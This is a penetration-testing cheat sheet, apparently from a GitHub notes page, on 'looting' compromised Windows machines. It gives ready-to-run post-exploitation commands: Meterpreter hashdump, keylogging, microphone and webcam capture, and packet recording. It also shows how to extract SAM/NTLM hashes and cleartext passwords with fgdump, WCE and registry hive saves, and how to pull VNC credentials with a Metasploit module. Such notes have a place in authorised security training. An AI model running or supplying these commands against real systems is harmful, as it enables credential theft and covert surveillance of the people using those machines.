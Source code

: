 # Loot Windows

## Meterpreter

If you have a meterpreter shell you are able to do a lot of thing with very little effort.  
If you do not have a meterpreter-shell you can always create a exploit with msfvenom. An elf or exe or other format to upgrade your shell.

Show help of all commands:

```
-h
```

**Dump windows hashes for further analysis**

```
hashdump
```

Keylogger

```
keysscan_start
keyscan_dump
keyscan_stop
```

**Mic and webcam commands**

```
record_mic     Record audio from the default microphone for X seconds
webcam_chat    Start a video chat
webcam_list    List webcams
webcam_snap    Take a snapshot from the specified webcam
webcam_stream  Play a video stream from the specified webcam
```

## Dumping passwords and hashes on windows

This most likely requires administrative rights, that's why the chapter is found here and not in priv-esc. Once you have a hash you can move on to the Password Cracking-chapter where we discuss different techniques of cracking hashes.

Windows stores passwords in SAM - Security Account Manager. Passwords are stored differently depending on the operating system. Up until \(and including\) Windows 2003 stored the passwords in LAN Manager \(LM\) and NT LAN Manager \(NTLM\). LM is incredibly insecure. From windows vista and on the system does not use LM, only NTLM. So it is a bit more secure.

**LM and NTLM &gt;= Windows 2003**

**NTLM &gt; Windows vista**

### LM Hashes

LM hashes can be really easy to crack. The LM part in the example below is the first part.

```
Administrator:500:FA21A6D3CF(01B8BAAD3B435B51404EE:C294D192B82B6AA35C3DFCA81F1F59BC:::
```

Example of NT

```
Administrator:500:NO PASSWORD*********************:BE134K40129560B46534340292AF4E72:::
```

### fgdump.exe

We can use `fgdump.exe` \(`locate fgdump.exe` on kali\) to extract NTLM and LM Password hashes. Run it and there is a file called 127.0.0.1.pwndump where the hash is saved. Now you can try to brute force it.

### Windows Credencial Editor \(WCE\)

WCE can steal NTLM passwords from memory in cleartext!  
There are different versions of WCE, one for 32 bit systems and one for 64 bit. So make sure you have the right one.

You can run it like this

```
wce32.exe -w
```

### Loot registry without tools

This might be a better technique than using tools like wce and fgdump, since you don't have to upload any binaries.  
Get the registry:

```
C:\> reg.exe save hklm\sam c:\windows\temp\sam.save
C:\> reg.exe save hklm\security c:\windows\temp\security.save
C:\> reg.exe save hklm\system c:\windows\temp\system.save
```

The hashes can be extracted using `secretdump.py` or `pwdump`

### Pwdump 7

[http://www.tarasco.org/security/pwdump\_7/](http://www.tarasco.org/security/pwdump_7/)

## VNC

VNC require's a specific password to log in to.  If you have a meterpreter shell you can run the post exploit module to get the VNC password.

```
background
use post/windows/gather/credentials/vnc
set session X
exploit
```

## Tcpdump on Windows

You can use meterpreter to easily dump traffic, like this:

```
# Meterpreter
run packetrecorder -li
run packetrecorder -i 1
```

### Search for interesting files

```
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql

# Recursive search
dir /s
```

## References

This is a great post  
[https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/](https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/)

